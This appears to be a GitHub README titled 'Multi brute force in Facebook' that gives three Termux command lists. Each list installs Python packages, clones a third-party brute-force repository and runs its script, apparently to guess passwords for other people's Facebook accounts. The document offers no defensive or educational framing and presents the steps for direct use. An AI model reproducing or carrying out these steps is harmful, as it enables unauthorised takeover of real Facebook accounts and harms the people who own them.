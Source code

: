 ![brute-force-attack](https://user-images.githubusercontent.com/75029023/111899000-881e9380-8a64-11eb-9749-454856a52faa.jpg)

### **`Multi brute force in Facebook`**


> So Let's Start....  
> Step By Step  
> First of All Download Termux from Google Play and Install it  After installing just give these commands to Termux  
> And Run one by one  

![PicsArt_10-25-08 29 55](https://user-images.githubusercontent.com/75029023/111865355-9061ca80-89a1-11eb-91b9-6c5f35e01cfe.png)

# COMMAND LIST 1 
```
$ apt update && apt upgrade  
```
```
$ pkg install python2 
```
```
$ pkg install git  
```
```
$ pip2 install mechanize  
```
```
$ git clone https://github.com/pirmansx/mbf 
``` 
```
$ cd mbf 
```
```
$ python2 MBF.py  
```

# COMMAND LIST 2  
```
$ pkg update 
```
```
$ pkg upgrade 
```
```
$ pkg install python2  
```
```
$ pkg install perl 
```
```
$ pkg install curl 
```
```
$ pkg install mechanize 
```
```
$ pip2 install request
```
```
$ git clone https://github.com/Senitopeng/fbbrute 
```
```
$ cd fbbrute 
```
```
$ python2 fbbrute.py  
```

# COMMAND LIST 3 
```
$ apt update && apt upgrade 
```
```
$ pkg install pip 
```
```
$ pkg install python 
```
```
$ pkg install python2  
```
```
$ pip2 install mechanize 
```
```
$ pkg install git 
```
```
$ git clone https://github.com/hnov7/mbf 
```
```
$ cd mbf 
```
```
$ ls 
```
```
$ python2 mbf.py 
```
```
$ 1 
```
```
$ y
```

![44804662_315681345917191_1671247044175462400_o](https://user-images.githubusercontent.com/75029023/111865398-b4251080-89a1-11eb-802a-d00f8e6ed33c.jpg)

